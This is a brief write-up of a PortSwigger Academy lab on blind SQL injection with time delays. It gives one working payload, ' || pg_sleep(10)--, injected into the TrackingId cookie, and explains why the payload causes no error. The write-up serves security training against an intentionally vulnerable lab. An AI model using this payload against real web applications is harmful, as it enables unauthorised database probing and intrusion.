


# Write-up: Blind SQL injection with time delays @ PortSwigger Academy

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-time-delays>  
Difficulty: PRACTITIONER

## Exploitation
To solve the lab, I injected the following payload into the cookie field:

`TrackingId=rZa5d2e9k2GEpnGQ' || pg_sleep(10)--;`

`pg_sleep()` returns `VOID` which textually evaluates to an empty string, so it did not throw an error.

